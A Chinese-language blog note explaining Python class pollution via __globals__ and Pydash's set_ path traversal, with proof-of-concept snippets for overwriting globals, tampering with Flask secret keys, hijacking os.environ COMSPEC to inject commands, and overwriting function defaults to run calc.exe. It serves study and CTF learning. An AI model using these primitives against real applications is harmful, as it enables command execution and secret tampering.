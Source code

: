 # Python 类原型链污染
## 认识
Python 下的类原型链污染利用，通过这篇[文章](https://blog.abdulrah33m.com/prototype-pollution-in-python/)进行一个认识。
```python
obj, neko = TaskManager(), 123  
assert obj.__init__.__func__ == obj.__class__.__init__  
obj.__class__.__init__.__globals__.__setitem__('neko', 456)  
assert neko == 456
```
在上述例子中，通过 `<function>.__globals__` 获取到了当前位置的全局变量，然后调用 `__setitem__` 进行修改。`obj.__init__`是一个 bound method， 在内部存储了底层函数和绑定的实例，可以使用 `__func__` 和 `__self__` 获取。
在第三方库中，Pydash 对此做了一定封装，其主要逻辑：
```python
for idx, token in enumerate(pyd.initial(tokens)):
	if isinstance(token, PathToken):
		key = token.key
		default_factory = pyd.get(tokens, [idx + 1, "default_factory"], default=default_type)
	else:
		key = token
		default_factory = default_type

	obj_val = base_get(target, key, default=None)
	path_obj = None

	if call_customizer:
		path_obj = call_customizer(obj_val, key, target)

	if path_obj is None:
		path_obj = default_factory()

	base_set(target, key, path_obj, allow_override=False)

	try:
		target = base_get(target, key, default=None)
	except TypeError as exc:  # pragma: no cover
		try:
			target = target[int(key)]
			_failed = False
		except Exception:
			_failed = True

		if _failed:
			raise TypeError(f"Unable to update object at index {key!r}. {exc}")

value = base_get(target, last_key, default=None)
base_set(target, last_key, callit(updater, value))
```
`base_set` 部分：
```python
def base_set(obj, key, value, allow_override=True):
    if isinstance(obj, dict):
        if allow_override or key not in obj:
            obj[key] = value
    elif isinstance(obj, list):
       #...
    elif (allow_override or not hasattr(obj, key)) and obj is not None:
        setattr(obj, key, value)

    return obj
```
所以可以换成 Pydash 的写法：
```python
obj.__class__.__init__.__globals__.__getitem__('__loader__').__init__.__func__.__globals__.__getitem__('sys').__getattribute__('modules').__getitem__('__main__').__setattr__('neko', 789)
assert neko == 789
# x.__getitem__('foo') == x['foo']
# x.__getattribute__('bar') == x.bar
obj.set('__class__.__init__.__globals__.__loader__.__init__.__globals__.sys.modules.__main__.neko', 114514)
assert neko == 114514
```
## 利用
- 全局变量修改，例子见上
- Flask secret key 篡改，一些配置参数改变，同全局变量操作
- os.environ 劫持环境变量，造成命令注入
```python
obj.__class__.__init__.__globals__['subprocess'].os.environ.__setitem__('COMSPEC', "cmd /c calc")
# os.environ['COMSPEC'] = "cmd /c calc"
subprocess.Popen('whoami', shell=True)
```
- 通过覆写来改变函数的默认参数
首先是 function 中的 `__kwdefaults__` ：
```python
def exec(*, cmd='whoami'):
    os.system(cmd)
obj.__class__.__init__.__globals__['exec'].__kwdefaults__.__setitem__('cmd', 'calc.exe')
exec()
```
而 `__kwdefaults__` 存在需要满足 func 的参数中有 `*param`。但需要注意的是并非所有的默认 kw 参数都能覆盖，经过测试发现只能覆盖 `*` 之后的参数。
```python
# `__kwdefaults__`
def func_test(a=1, *, b=1):
	assert a == 1 and b == 2
# a 不能被覆盖，b 能被覆盖
func_test.__kwdefaults__.__setitem__('a', 2)
func_test.__kwdefaults__.__setitem__('b', 2)
func_test()
```
还有一个 `__defaults__`，但由于返回的是 tuple 不可变，所以利用更有限。
```python
# `__defaults__`
def func_test(cmd, mode="r", buffering=-1):
	assert mode == 114 and buffering == 514
	pass
# 若元组个数超过参数个数，则取 last
func_test.__setattr__('__defaults__', ('w', 114, 514))
func_test('SilentE')
```
## 可能的漏洞点
应该只有 CTF 中才有了hh

- 直接使用文章中的 merge 函数
- 使用 pydash 的 `set_`  (Update: 作者已 Fix，新版本已经寄了)
- 漏洞代码 `obj.__setattr__/__setitem__(k: string, v: string)` 中 obj，k，v 完全可控。

![pydash_fix](https://cdn.silente.top/img/pydash_fix.png)